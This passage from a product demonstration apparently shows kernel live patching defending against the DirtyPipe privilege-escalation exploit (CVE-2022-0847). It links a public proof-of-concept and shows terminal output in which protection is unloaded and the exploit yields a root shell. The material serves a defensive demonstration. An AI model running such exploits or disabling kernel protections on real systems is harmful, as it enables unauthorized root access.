 This allows the system to become more robust, and all paching works up to this point have been achieved without the need to reboot the system.

## VI. Advanced demonstration using exploits
Live Patching not only serves as a countermeasure against vulnerability scanners, but also actually prevents exploits, as it can be demonstrated by running the POC code of the CVE-2022-0847 as known as DirtyPipe. Note that this demonstration is not available in the managed system but it can be requested separately.

* CVE-2022-0847 DirtyPipe Exploit (https://github.com/febinrev/dirtypipez-exploit)  
  Credit: Max Kellermann and Febin Mon Saji

#### 1. Make sure the `guest` user doesn't have root privileges
```bash
$ whoami
guest
$ id
uid=1001(guest) gid=1001(guest) groups=1001(guest)
$ su
Password: 
su: Authentication failure
```

#### 2. Unload kernel patches
```bash
$ sudo kcarectl --unload
KernelCare protection disabled. Your kernel might not be safe
$ uname -r
5.8.0-29-generic
```

#### 3. Run the exploit code
The attack succeeds and root privileges are taken.
```bash
$ dirtypipez 
[+] hijacking suid binary..
[+] dropping suid shell..
[+] restoring suid binary..
[+] popping root shell.. (dont forget to clean up /tmp/sh ;))
# 
```

#### 4. Confirm you are running as rootv now
```bash
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root),1001(guest)
```

#### 5. Clean up and exit from the root shell
```bash
# rm /tmp/sh
# exit
$
```
